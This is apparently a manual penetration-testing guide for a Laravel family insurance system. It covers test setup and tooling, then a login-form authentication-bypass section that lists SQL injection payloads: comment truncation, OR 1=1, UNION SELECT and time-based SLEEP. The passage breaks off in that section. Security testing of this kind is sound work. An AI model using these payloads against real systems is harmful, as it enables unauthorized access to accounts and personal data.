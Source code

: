 # Manual Penetration Testing Procedures
## Laravel Family Insurance System Security Assessment

### Overview
This document provides comprehensive manual penetration testing procedures for the Laravel family grouping insurance system. These procedures complement the automated security test suite and cover areas that require manual intervention or external tools.

---

## Pre-Testing Setup

### Environment Preparation
1. **Test Environment**: Ensure testing is performed on a dedicated test environment
2. **Database Backup**: Create full database backup before testing
3. **Logging Setup**: Enable detailed application logging
4. **Network Isolation**: Ensure test environment is isolated from production

### Required Tools
- **Burp Suite Professional** or **OWASP ZAP** (Web Application Scanner)
- **SQLmap** (SQL Injection Testing)
- **Hydra** or **Medusa** (Brute Force Testing)
- **Nmap** (Network Scanning)
- **Wireshark** (Network Traffic Analysis)
- **Browser Developer Tools**
- **Custom scripts** for specific attack scenarios

---

## 1. AUTHENTICATION BYPASS TESTING

### 1.1 SQL Injection in Login Form

**Objective**: Test for SQL injection vulnerabilities in customer authentication

**Procedure**:
```bash
# Manual SQL injection payloads in login form
Email: admin'--
Password: anything

Email: ' OR '1'='1
Password: ' OR '1'='1

Email: ' UNION SELECT 1,2,3,4,5,6,7,8 WHERE '1'='1
Password: anything

# Time-based blind SQL injection
Email: admin' AND (SELECT SLEEP(5))--
Password: anything
```
